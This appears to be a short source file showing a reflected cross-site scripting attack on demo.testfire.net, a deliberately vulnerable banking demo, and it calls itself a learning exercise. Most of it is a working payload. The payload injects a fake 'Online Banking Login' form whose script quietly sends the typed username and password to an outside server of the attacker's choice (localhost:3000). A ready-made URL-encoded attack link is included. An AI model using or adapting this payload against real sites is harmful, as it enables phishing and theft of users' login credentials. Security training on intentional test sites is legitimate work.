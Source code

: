 # Fake Login page using cross site scripting.
# This is done on a website which is made intentionally vulnerable.
# https://demo.testfire.net/
# This is only for learning purposes.
#Below is the script execute this on any input form eg (Search, feedback).

#

#<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin'; // Login orignal server
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();

            document.forms["login"].action = "http://localhost:3000"; // Local server of choice
            document.forms["login"].method = "get";
            document.forms["login"].target = "http://localhost:3000";
            document.forms["login"].submit();
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";            
</script>

#Below is the link prepared from the above script.

https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B++++++++++++++document.forms%5B%22login%22%5D.action+%3D+%22http%3A%2F%2Flocalhost%3A3000%22%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22get%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22http%3A%2F%2Flocalhost%3A3000%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++++++++++%3C%2Fscript%3E
